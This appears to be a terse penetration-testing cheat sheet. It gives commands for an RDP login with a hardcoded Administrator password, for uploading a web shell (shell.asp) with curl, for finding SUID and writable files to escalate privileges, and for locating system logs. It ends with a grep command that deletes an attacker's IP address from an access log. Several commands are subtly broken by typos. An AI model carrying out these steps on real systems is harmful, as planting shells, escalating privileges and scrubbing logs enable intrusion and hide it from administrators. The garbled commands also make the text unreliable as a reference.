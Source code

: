 # **commands**

rdesktop -u Administrator -p WIN20082017 ip  
  
#Curl upload file  
curl [http://](http://10.11.1.229/)ip --upload-file shell.asp  
  
  
  
  
  
#SUID  
find / -perm -4000 -type f 2>/dev/null  
  
#writable permission  
find / perm /u=w -user `whoami` 2>/dev/null  
find / -perm /u+w,g+w -f -user `whoami` 2>/dev/null  
find / -perm /u+w -user `whoami` 2>/dev/nul  
  
  
  
#

## Find files with SUID permission for current user

  
  
find / perm /u=s -user `whoami` 2>/dev/null  
find / -user root -perm -4000 -print 2>/dev/null  
  
#open permission  
find / -perm -777 -type f 2>/dev/null  
  
  
#log files  
/var/log/messages  
/var/logs  
/var/log/auth.log  
/var/log/apache2/access.log  
/var/log/apache2/error.log  
grep -v '<src-ip-address>' /path/to/access_log > a && mv a /path/to/access_log